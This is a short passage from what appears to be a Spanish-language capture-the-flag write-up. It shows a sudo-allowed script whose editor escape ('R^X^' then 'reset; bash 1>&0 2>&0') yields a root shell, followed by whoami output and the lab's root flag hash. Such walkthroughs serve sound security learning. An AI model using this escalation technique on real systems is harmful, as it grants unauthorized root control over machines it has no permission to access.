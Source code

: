 ```shell
sudo email.sh -n
R^X^
reset; bash 1>&0 2>&0
```

Info:

```
root@c9b500ac7efe:/tmp# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
bb1a9486dfbcf4affff71a5cba7e468b
```
